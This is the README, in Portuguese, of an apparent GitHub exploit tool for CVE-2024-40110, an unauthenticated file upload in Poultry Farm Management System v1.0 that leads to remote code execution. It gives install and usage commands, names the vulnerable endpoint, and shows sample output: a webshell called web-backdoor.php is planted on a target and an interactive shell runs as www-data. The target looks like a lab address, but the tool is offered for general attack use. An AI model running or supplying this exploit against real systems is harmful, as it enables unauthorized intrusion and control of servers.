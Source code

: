 # CVE-2024-40110 - Poultry Farm Management System v1.0 - Remote Code Execution (RCE)

Exploit para a vulnerabilidade **CVE-2024-40110**, que permite **execução remota de comandos (RCE)** sem autenticação no **Poultry Farm Management System v1.0**.  
Esse exploit realiza o upload de uma webshell via endpoint vulnerável e fornece uma shell interativa para execução de comandos.

---

## 📌 Informações Técnicas

- **Produto vulnerável**: Poultry Farm Management System v1.0
- **Vulnerabilidade**: Upload de arquivo não autenticado → Execução remota de código
- **CVE**: [CVE-2024-40110](https://nvd.nist.gov/vuln/detail/CVE-2024-40110)
- **Endpoint vulnerável**: `/farm/product.php`
- **Autor original**: Jerry Thomas (w3bn00b3r)
- **Modificado por**: [shacrony](https://github.com/shacrony)

---

## ⚙️ Instalação

Clone este repositório:

```bash
git clone https://github.com/shacrony/redcock.py.git
cd redcock.py

python3 -m venv venv
source venv/bin/activate

pip install -r requirements.txt


Como usar:

Execute o script:

python3 redcock.py
E preencha as informações quando solicitado:

Alvo (ex: http://10.10.10.10): http://10.10.247.190
Diretório do sistema (ex: /farm): /farm
Exemplo:

[*] Enviando webshell para: http://10.10.247.190/farm/product.php
[+] Webshell enviada com sucesso!
[+] Shell URL: http://10.10.247.190/farm/assets/img/productimages/web-backdoor.php

[!] Conectado à shell remota. Digite seus comandos abaixo.
[!] Digite 'exit' para sair.

shell$ whoami
www-data
